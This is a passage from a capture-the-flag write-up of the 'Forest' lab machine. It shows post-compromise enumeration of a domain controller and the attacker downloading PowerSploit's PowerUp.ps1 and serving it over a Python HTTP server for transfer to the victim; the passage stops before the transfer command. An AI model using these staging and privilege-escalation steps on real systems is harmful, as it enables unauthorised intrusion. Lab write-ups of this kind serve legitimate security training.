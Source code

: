 <br />
<img src="{{ site.img_path }}/forest_writeup/Forest_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After inspecting the **DC** file system and also the privileges of the account I managed to compromise, I don't find much valuable information, so I'm going to resort to **[PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1){:target="_blank"}** to look for vectors that allow me to **Escalate privileges**. After trying different methods to transfer the script to the victim machine and once I succeed, unfortunately I can't import the module so the **cmdlet** (command-let - specialized command) **Invoke-AllCheckes** doesn't succeed to be recognized by the system.

> **[PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1){:target="_blank"}**: **PowerUp** aims to be a clearinghouse of **common Windows privilege escalation vectors** that rely on misconfigurations.

> **Victime Machine**:

```cmd
whoami /priv
whoami /all
cd C:\
dir -force
cd C:\Users\svc-alfresco\AppData\Local\Temp
dir -force
systeminfo
# :(
```

> **Attacker Machine**:

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1
nvim PowerUp.ps1
cat PowerUp.ps1 | tail -n 1
# Invoke-AllChecks
python3 -m http.server 80
```

> **Victime Machine**:
